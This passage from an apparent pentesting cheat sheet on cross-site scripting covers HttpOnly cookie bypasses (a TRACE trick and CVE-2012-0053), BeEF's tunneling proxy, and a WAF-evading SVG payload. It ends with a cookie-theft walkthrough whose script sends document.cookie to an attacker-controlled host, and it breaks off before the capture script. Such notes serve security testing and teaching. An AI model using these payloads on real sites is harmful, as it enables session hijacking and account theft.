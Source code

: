 Modern browsers block the HTTP TRACE method in XMLHttpRequest and other scripting languages and libraries such as JQuery, Silverlight... But if the attacker finds another way of doing HTTP TRACE requests, then they can bypass the HTTPOnly flag. 

> For instance, Amit Klein found a simple trick for IE 6.0 SP2. Instead of using TRACE for the method, he used `\r\nTRACE`and the payload worked under certain circumstances.


>**CVE-2012-0053: Apache HTTPOnly cookie disclosure**. For Apache HTTP Server 2.2.x through 2.2.21. For an HTTP-Header value exceeding the server limits, the server responded with a HTTP 400 Bad Request including the complete headers containing the HTTPOnly cookies. ([https://gist.github.com/pilate/1955a1c28324d4724b7b](https://gist.github.com/pilate/1955a1c28324d4724b7b)). [BeEF](../beef.md) has a module named Apache Cookie Disclosure, available under Exploits section.

#### 2.2. BeEF Tunneling Proxy

An alternative to stealing protected cookies is to use the victim browser as a proxy. The Tunneling Proxy in [BeEF](../beef.md) exploits the XSS flaw and uses the victim browser to perform requests as the victim user to the web application. Basically, it tunnels requests through the hooked browser. By doing so, there is no way for the web application to distinguish between requests coming from legitimate user and requests forged by an atacker. 
BeEF allows you to bypass other web developer protection techniques such as using multiple validations (User-agent, custom headers,...)

### Bypassing WAFs

#### ModSecurity

```
<svg onload='new Function`[“_Y000!_”].find(al\u0065rt)`'>
```

## Examples of typical attacks
### 1. Cookie stealing: examples and techniques

#### Example 1

Identify an injection endpoint and test that the app is vulnerable to a basic xss payload such as:

```html
<script>alert(‘lala’)</script>
```

 Once you know is vulnerable, prepare a malicious javascript code for stealing the cookies:

```js
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+document.cookie;
</script>
```
  
Add that code to the injection endpoint that you detected in step 1. That code will save the cookie in a text file on the attacker site.

Create a text file (log.php) for capturing the sent cookie in the attacker site:
